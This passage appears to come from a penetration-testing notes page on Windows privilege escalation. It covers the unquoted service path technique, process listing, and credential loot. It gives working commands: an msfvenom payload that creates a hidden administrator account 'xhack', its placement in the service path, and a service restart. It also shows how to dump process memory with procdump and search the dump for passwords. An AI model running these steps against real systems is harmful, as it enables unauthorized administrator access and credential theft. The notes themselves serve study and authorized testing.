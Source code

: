     C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
    # Therefore, we choose the name following binary name
    --> common.exe 
######## The path would be C:\Program.exe, C:\Program Files\Unquoted.exe, C:\Program Files\Unquoted Path Service\Common.exe and so on

# create exploit 
msfvenom -p windows/exec CMD='net user xhack SecurePass1337 /add; net localgroup administrators xhack /add' -f exe-service -o common.exe
# place exploit in the target folder, so in here 
C:\Program Files\Unquoted Path Service\
# restart service
sc start unquotedsvc
</code></pre>
{% endtab %}
{% endtabs %}

## Running processes

{% code overflow="wrap" fullWidth="true" %}
```c
https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2
Get-Process
Get-Process MyProcessName | Format-List *
tasklist /v
# List running processes except svchost which repeats itself and it is not interesting (ps only on Meterpreter??)
ps | Where-Object {($_.ProcessName -ne "svchost")}
# If weird processes or common apps that are not usually running (browsers for example) -> dump info
https://learn.microsoft.com/en-us/sysinternals/downloads/procdump
# Write a mini dump of a process named 'notepad' (only one match can exist):
C:\>procdump notepad
# Write a Full dump of a process with PID '4572':
C:\>procdump -ma 4572 -accepteula
# Then while we transfer the file to Kali, search for passwords for example
strings dump.dmp | grep -i password
```
{% endcode %}

## **Passwords / Loot**

[**https://pure.security/dumping-windows-credentials/**](https://pure.security/dumping-windows-credentials/)
